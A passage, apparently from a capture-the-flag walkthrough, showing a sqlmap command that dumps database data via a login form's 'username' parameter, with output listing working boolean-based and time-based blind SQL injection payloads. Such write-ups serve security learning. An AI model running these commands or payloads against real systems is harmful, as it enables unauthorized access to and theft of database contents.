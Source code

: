 ![image-20240119235640468](./Magic.assets/image-20240119235640468.png)

![image-20240119235651350](./Magic.assets/image-20240119235651350.png)

- **sqlmap** to dump db data

```console
$ sqlmap -r request.txt -p username --batch --level 5 --risk 3
[21:03:35] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-8905' OR 9694=9694-- OLJv&password=admin

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: username=admin' AND 1206=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- ClpM&password=admin
---
```